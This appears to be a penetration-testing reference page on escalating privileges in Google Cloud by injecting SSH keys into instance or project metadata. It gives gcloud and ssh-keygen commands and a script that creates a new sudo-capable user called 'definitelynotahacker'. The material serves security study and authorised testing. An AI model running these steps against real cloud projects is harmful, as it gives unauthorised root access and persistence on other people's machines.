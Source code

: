 # GCP - Add Custom SSH Metadata

## Modifying the metadata 

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**

   - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

     ```bash
     gcloud compute instances describe [INSTANCE] --zone [ZONE]
     ```

   - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
   - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**

   - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

     ```bash
     ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
     ```

   - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**

   - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

     ```bash
     gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
     ```

5. **Access the Instance Using the New SSH Key:**

   - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

     ```bash
     ssh -i ./key alice@localhost
     sudo id
     ```

### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

### SSH keys at project level 

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**

   - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

     ```bash
     gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
     ```

2. **SSH into Instances Using Project-Wide Keys:**
   - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

